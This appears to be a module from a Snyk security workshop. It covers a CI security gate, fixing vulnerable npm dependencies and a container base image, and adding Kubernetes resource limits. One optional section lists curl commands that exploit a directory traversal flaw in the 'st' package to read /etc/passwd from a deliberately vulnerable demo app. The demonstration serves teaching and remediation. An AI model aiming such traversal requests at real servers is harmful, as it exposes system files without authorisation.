










# Module 3: Address the Identified Security Risks

In the previous Module you, as a security analyst, identified various risks across the components of your applications that you need developers to address. Now, you'll work together with both developers and operations teams to implement a security gate in the CI pipeline and give developers the tools they need to address these issues before their next code commit. Let's begin!

## Enable Snyk in the CI Pipeline

The provided `.workflows/snyk-gate.yml` file has the Snyk tests pre-configured, we can enable these in a few steps. 

### Save your Snyk Token as a CI/CD Variable

Before we can run these Snyk tests, we first need to save the Snyk API Token so the CI/CD tests know where to send the results. 

First, get your Snyk API Token from the Snyk Account Settings.



Next, save this Token as a Repo Variable in GitHub, calling it SNYK_TOKEN. 

This workflow is set up to run any time code is pushed to the `deploy` branch.

## See Snyk Results in the Developer Workstation

In VS Code, the Snyk Plugin allows developers to see the same information available in the Snyk UI in their local workstations. Once installed and connected to your Snyk account, you will see a side panel with the scan results.



Clicking on an issue shows the same results from the Snyk UI, directly within VS Code. Snyk will also highlight, in the relevant files, issues present in those files. For example, in our repo's `package.json`, we can see which dependencies introduce issues.

## Optional: The risks of vulnerable dependencies

To see an example of the risks a vulnerable open source component introduces to a running application, we're going to exploit one of those vulnerabilities. The `exploits` folder contains exploits for many of the vulnerable dependencies.

Let's execute an exploit against our running application. We'll demonstrate how the Directory Traversal vulnerability in the `st` package can lead to sensitive information leakage. Start by navigating to the exploits folder and sourcing the `st-exploits.sh` file.

```text
cd exploits && source st-exploits.sh
```

This sets up a series of aliases to demonstrate the exploit. They are shown below:

```text
st1="curl $GOOF_HOST/public/about.html"

# Directory listing (not necessary)
st2="curl $GOOF_HOST/public/"

# Failed ../
st3="curl $GOOF_HOST/public/../../../"

# Exploit start
st4="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2e%2e/"

# Exploit full
st5="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2E%2E/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

The good stuff is in `st4` and `st5`, where we see the leaked contents of the `/etc/passwd` file.



Yikes. And this is just one example. Feel free to play around with the other exploits in this folder, the sample application is **very** vulnerable \(for now!\). 

## Fix an Open Source Issue in the IDE

Recall that in the previous Module we identified one vulnerability that was Critical Severity, Exploitable, and with a Fix Available. Let's fix that one.



In the Snyk Plugin, find the same vulnerability to see the Remediation Advice.



Navigate to the `package.json` file and apply the recommended version of adm-zip then save the file.



Re-install dependencies with `npm install`.

```bash
npm install
```

Once complete, revisit the Snyk tab in the Plugin, the vulnerability is now gone!

### Fixing the Directory Traversal Vulnerability above
Try fixing the Directory Traversal Vulnerability exploited above in the same method. The vulnerable package is `st:0.2.4`. 

### Verify the Fix to the Directory Traversal Vulnerability
Once you apply the fix, re-build and re-deploy the container to ensure the fix worked. 

```sh
# Build the new image
docker build ghcr.io/$gitHubId/node-goof:dev .

# Push to GitHub Container Registry
docker push ghcr.io/$gitHubId/node-goof:dev

# Scale the deployment down and up
kubectl scale deployment node-goof --replicas=0
kubectl scale deployment node-goof --replicas=1
```

When you try the Exploit again, it should fail spectacularly.


## Commit your Changes to your Repo's Main Branch
Now re-generate your lockfile and commit your changes upstream. 

```bash
npm install --package-lock
git add *
git commit -m "updating vulnerable dependencies"
git push
```

This will trigger the CI job. Back in Snyk, you can re-test the `package.json` project under the GitHub import to see two less vulnerabilities!


## Apply a more Secure Base Image from the Snyk UI
Developers (and Non-Developers) can kick off the Remediation process for vulnerabilities from the Snyk UI using Fix Pull Requests.

In this case, we'll open a Fix Pull Request to apply a more secure Base Image for our Container. Navigate to the `Dockerfile` project under the GitHub import.



Choose to Open a Merge Request for a more Secure Base Image.



This will direct you to GitHub to view the Pull Request. Review the Pull Request and select to Merge it.



*Note: we're recklessly merging this base image for demonstration purposes only. Always run robust tests on your application to ensure a version upgrade of Node will not break your application.*

## Ensure Deployment Manifests are Properly Configured
Even with 0 vulnerabilities, how our application's deployment manifests are written can expose us to risks. Now we'll use Snyk to find and fix the YAML issues identified earlier. In VS Code, we see those under `Configuration` Issues.



For each issue, Snyk calls out the issue identified, its impact, and how it can be resolved. It also highlights the line of code where the issue exists. In the example below, we see an issue that can be fixed by adding Memory Limits to our deployment.


You can fix this issue, as well as the CPU Limits Issue also identified, by following Snyk's guidance to define Memory and CPU limits in `goof-deployment.yaml`. 

```yaml
resources:
  limits:
    cpu: 250m
    memory: 100Mi
  requests:
    cpu: 100m
    memory: 100Mi
```

### Re-Test your Deployment Files to ensure they work
Any time you make a change to a configuration file, it's a good idea to test it locally before committing the changes. Tear down the current deployment by deleting the namespace:

```bash
kubectl delete ns snyk-docker
```

Once it's gone, re-deploy the application using the following commands.

```bash
# Create a namespace
kubectl create ns snyk-docker

# Set the current context to use the new namespace
kubectl config set-context --current --namespace snyk-docker

# Spin up the goof deployment and service
kubectl create -f goof-deployment.yaml,mongo-deployment.yaml
```

If it spins up correctly, test the app by navigating to http://localhost:3001. Once you've confirmed it works, commit the changes! Snyk will re-test the files and show updated issue counts.

```bash
git add goof-deployment.yaml
git commit -m "updating deployment config"
git push
```

## Merge the Changes to the Deploy Branch
Once you're confident that everything you've worked on in the `main` branch is stable, create a Pull Request to "push" your changes to Production. 

This will re-run the CI pipeline, including the Snyk Gate, and once the new version of the Container Image is pushed to the registry, you can re-test the project in Snyk to see the more secure container image results.

## What's next?
You've reached the end of this workshop, congratulations! See the Recap and Next Steps to remind yourself of everything you accomplished today and learn more.
